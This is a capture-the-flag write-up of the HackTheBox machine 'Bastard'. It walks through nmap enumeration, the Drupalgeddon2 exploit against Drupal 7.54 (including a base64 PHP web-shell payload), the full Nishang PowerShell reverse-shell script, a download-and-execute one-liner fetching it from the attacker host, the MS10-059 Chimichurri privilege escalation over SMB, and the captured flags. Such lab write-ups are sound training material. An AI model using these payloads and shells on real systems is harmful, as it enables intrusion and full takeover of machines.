


# Enumeration

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Bastard]
└─# nmap -sC -sV -A 10.10.10.9 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-21 12:58 +08
Nmap scan report for 10.10.10.9
Host is up (0.0031s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-generator: Drupal 7 (http://drupal.org)
|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
|_http-server-header: Microsoft-IIS/7.5
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|7|8.1|Vista|2012 (92%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012:r2
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT     ADDRESS
1   2.64 ms 10.10.14.1
2   2.77 ms 10.10.10.9

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 70.82 seconds
```

It seems like there is a website port open so let’s check it out!



I tried to bruteforce the login function but failed. Similarly, the account registration function doesn’t work.

Thereafter, I realised that there is an interesting `CHANGELOG.txt` being filtered out in the website’s `robots.txt` revealed in the nmap scan!



It seems like the website is running on `Drupal 7.54`.

# Exploit

Searching for exploits on this version brings us to this [GitHub](https://github.com/dreadlocked/Drupalgeddon2) repository.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Bastard]
└─# git clone https://github.com/dreadlocked/Drupalgeddon2                                              
Cloning into 'Drupalgeddon2'...
remote: Enumerating objects: 257, done.
remote: Counting objects: 100% (4/4), done.
remote: Compressing objects: 100% (4/4), done.
remote: Total 257 (delta 0), reused 0 (delta 0), pack-reused 253
Receiving objects: 100% (257/257), 102.12 KiB | 468.00 KiB/s, done.
Resolving deltas: 100% (88/88), done.
                                                                                                                      
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Bastard]
└─# cd Drupalgeddon2     
                                                                                                                      
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Bastard/Drupalgeddon2]
└─# ruby drupalgeddon2.rb 
<internal:/usr/lib/ruby/vendor_ruby/rubygems/core_ext/kernel_require.rb>:85:in `require': cannot load such file -- highline/import (LoadError)
	from <internal:/usr/lib/ruby/vendor_ruby/rubygems/core_ext/kernel_require.rb>:85:in `require'
	from drupalgeddon2.rb:16:in `<main>'
```

It seems like we need to install `highline` for the script to work.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Bastard/Drupalgeddon2]
└─# gem install highline                                  
Fetching highline-2.0.3.gem
Successfully installed highline-2.0.3
Parsing documentation for highline-2.0.3
Installing ri documentation for highline-2.0.3
Done installing documentation for highline after 1 seconds
1 gem installed
                                                                                                                      
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Bastard/Drupalgeddon2]
└─# ruby drupalgeddon2.rb
Usage: ruby drupalggedon2.rb <target> [--authentication] [--verbose]
Example for target that does not require authentication:
       ruby drupalgeddon2.rb https://example.com
Example for target that does require authentication:
       ruby drupalgeddon2.rb https://example.com --authentication
```

Great! Now the script works~

```ruby
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Bastard/Drupalgeddon2]
└─# ruby drupalgeddon2.rb http://10.10.10.9
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://10.10.10.9/
--------------------------------------------------------------------------------
[+] Found  : http://10.10.10.9/CHANGELOG.txt    (HTTP Response: 200)
[+] Drupal!: v7.54
--------------------------------------------------------------------------------
[*] Testing: Form   (user/password)
[+] Result : Form valid
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Clean URLs
[+] Result : Clean URLs enabled
--------------------------------------------------------------------------------
[*] Testing: Code Execution   (Method: name)
[i] Payload: echo SKJNUYPS
[+] Result : SKJNUYPS
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Existing file   (http://10.10.10.9/shell.php)
[i] Response: HTTP 404 // Size: 12
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
[!] Target is NOT exploitable [2-4] (HTTP Response: 404)...   Might not have write access?
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Existing file   (http://10.10.10.9/sites/default/shell.php)
[i] Response: HTTP 404 // Size: 12
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (sites/default/)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee sites/default/shell.php
[!] Target is NOT exploitable [2-4] (HTTP Response: 404)...   Might not have write access?
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Existing file   (http://10.10.10.9/sites/default/files/shell.php)
[i] Response: HTTP 404 // Size: 12
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (sites/default/files/)
[*] Moving : ./sites/default/files/.htaccess
[i] Payload: mv -f sites/default/files/.htaccess sites/default/files/.htaccess-bak; echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee sites/default/files/shell.php
[!] Target is NOT exploitable [2-4] (HTTP Response: 404)...   Might not have write access?
[!] FAILED : Couldn't find a writeable web path
--------------------------------------------------------------------------------
[*] Dropping back to direct OS commands
drupalgeddon2>> whoami
nt authority\iusr
```

# Privilege Escalation

Before we move forward, we should get a better shell.

Let’s use [Nishang’s](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) reverse TCP shell!

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Bastard]
└─# mousepad shell.ps1                                                                                                                        
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Bastard]
└─# cat shell.ps1
function Invoke-PowerShellTcp 
{ 
<#
.SYNOPSIS
Nishang script which can be used for Reverse or Bind interactive PowerShell from a target. 

.DESCRIPTION
This script is able to connect to a standard netcat listening on a port when using the -Reverse switch. 
Also, a standard netcat can connect to this script Bind to a specific port.

The script is derived from Powerfun written by Ben Turner & Dave Hardy

.PARAMETER IPAddress
The IP address to connect to when using the -Reverse switch.

.PARAMETER Port
The port to connect to when using the -Reverse switch. When using -Bind it is the port on which this script listens.

.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444

Above shows an example of an interactive PowerShell reverse connect shell. A netcat/powercat listener must be listening on 
the given IP and port. 

.EXAMPLE
PS > Invoke-PowerShellTcp -Bind -Port 4444

Above shows an example of an interactive PowerShell bind connect shell. Use a netcat/powercat to connect to this port. 

.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress fe80::20c:29ff:fe9d:b983 -Port 4444

Above shows an example of an interactive PowerShell reverse connect shell over IPv6. A netcat/powercat listener must be
listening on the given IP and port. 

.LINK
http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html
https://github.com/nettitude/powershell/blob/master/powerfun.ps1
https://github.com/samratashok/nishang
#>      
    [CmdletBinding(DefaultParameterSetName="reverse")] Param(

        [Parameter(Position = 0, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 0, Mandatory = $false, ParameterSetName="bind")]
        [String]
        $IPAddress,

        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="bind")]
        [Int]
        $Port,

        [Parameter(ParameterSetName="reverse")]
        [Switch]
        $Reverse,

        [Parameter(ParameterSetName="bind")]
        [Switch]
        $Bind

    )

    
    try 
    {
        #Connect back if the reverse switch is used.
        if ($Reverse)
        {
            $client = New-Object System.Net.Sockets.TCPClient($IPAddress,$Port)
        }

        #Bind to the provided port if Bind switch is used.
        if ($Bind)
        {
            $listener = [System.Net.Sockets.TcpListener]$Port
            $listener.start()    
            $client = $listener.AcceptTcpClient()
        } 

        $stream = $client.GetStream()
        [byte[]]$bytes = 0..65535|%{0}

        #Send back current username and computername
        $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
        $stream.Write($sendbytes,0,$sendbytes.Length)

        #Show an interactive PowerShell prompt
        $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
        $stream.Write($sendbytes,0,$sendbytes.Length)

        while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
        {
            $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
            $data = $EncodedText.GetString($bytes,0, $i)
            try
            {
                #Execute the command on the target.
                $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )
            }
            catch
            {
                Write-Warning "Something went wrong with execution of command on the target." 
                Write-Error $_
            }
            $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
            $x = ($error[0] | Out-String)
            $error.clear()
            $sendback2 = $sendback2 + $x

            #Return the results
            $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
            $stream.Write($sendbyte,0,$sendbyte.Length)
            $stream.Flush()  
        }
        $client.Close()
        if ($listener)
        {
            $listener.Stop()
        }
    }
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port." 
        Write-Error $_
    }
}

┌──(root㉿shiro)-[/home/shiro/HackTheBox/Bastard]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.9 - - [21/Apr/2022 13:46:47] "GET /shell.ps1 HTTP/1.1" 200 -

- Drupal terminal -
drupalgeddon2>> powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.14.9/shell.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.9 -Port 1234

- Netcat listener -
┌──(root㉿shiro)-[/home/shiro]
└─# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.9] 49443
Windows PowerShell running as user BASTARD$ on BASTARD
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\inetpub\drupal-7.54> whoami
nt authority\iusr
```

Finally, we have a interactive shell to work with.

```bash
PS C:\inetpub\drupal-7.54> systeminfo

Host Name:                 BASTARD
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-402-3582622-84461
Original Install Date:     18/3/2017, 7:04:46 ??
System Boot Time:          21/4/2022, 6:48:00 ??
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
                           [02]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     2.047 MB
Available Physical Memory: 1.482 MB
Virtual Memory: Max Size:  4.095 MB
Virtual Memory: Available: 3.483 MB
Virtual Memory: In Use:    612 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.9
```

Let’s use Windows-Exploit-Suggester with this information.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Bastard]
└─# git clone https://github.com/AonCyberLabs/Windows-Exploit-Suggester.git
Cloning into 'Windows-Exploit-Suggester'...
remote: Enumerating objects: 120, done.
remote: Total 120 (delta 0), reused 0 (delta 0), pack-reused 120
Receiving objects: 100% (120/120), 169.26 KiB | 9.96 MiB/s, done.
Resolving deltas: 100% (72/72), done.
                                                                                                                      
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Bastard]
└─# mousepad systeminfo.txt
                                                                                                                      
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Bastard]
└─# Windows-Exploit-Suggester/windows-exploit-suggester.py --update
[*] initiating winsploit version 3.3...
[+] writing to file 2022-04-21-mssb.xls
[*] done
                                                                                                                      
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Bastard]
└─# Windows-Exploit-Suggester/windows-exploit-suggester.py --database 2022-04-21-mssb.xls --systeminfo systeminfo.txt
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (ascii)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 197 potential bulletins(s) with a database of 137 known exploits
[*] there are now 197 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2008 R2 64-bit'
[*] 
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*] 
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done
```

It seems like this machine is vulnerable to `MS10-059` privilege escalation.

So let’s download the exploit from this [GitHub](https://github.com/egre55/windows-kernel-exploits/blob/master/MS10-059:%20Chimichurri/Compiled/Chimichurri.exe) repository and host a `smbserver` to share the file.

```powershell
- local machine -
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Bastard]
└─# python /opt/impacket-0.9.19/examples/smbserver.py share .
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.9,49445)
[*] AUTHENTICATE_MESSAGE (\,BASTARD)
[*] User \BASTARD authenticated successfully
[*] :::00::4141414141414141
[-] Unknown level for query path info! 0x109

PS C:\inetpub\drupal-7.54> net use * /delete /y
You have these remote connections:

                    \\10.10.14.9\share
Continuing will cancel the connections.

The command completed successfully.

PS C:\inetpub\drupal-7.54> net use \\10.10.14.9\share
The command completed successfully.

PS C:\inetpub\drupal-7.54> copy \\10.10.14.9\share\Chimichurri.exe
PS C:\inetpub\drupal-7.54> .\Chimichurri.exe 10.10.14.9 9999

- netcat listener - 
┌──(root㉿shiro)-[/home/shiro]
└─# nc -nlvp 9999             
listening on [any] 9999 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.9] 49447
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\inetpub\drupal-7.54>whoami
whoami
nt authority\system
C:\inetpub\drupal-7.54>cd C:\Users
cd C:\Users
C:\Users>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is C4CD-C60B

 Directory of C:\Users

19/03/2017  08:35 ��    <DIR>          .
19/03/2017  08:35 ��    <DIR>          ..
19/03/2017  02:20 ��    <DIR>          Administrator
19/03/2017  02:54 ��    <DIR>          Classic .NET AppPool
19/03/2017  08:35 ��    <DIR>          dimitris
14/07/2009  07:57 ��    <DIR>          Public
               0 File(s)              0 bytes
               6 Dir(s)   4.137.095.168 bytes free

C:\Users>type dimitris\Desktop\user.txt
type dimitris\Desktop\user.txt
6be104d8d9844053846a3bada22a202c
C:\Users>type administrator\Desktop\root.txt
type administrator\Desktop\root.txt
b31f4550141382cae0433214a2e97152
```

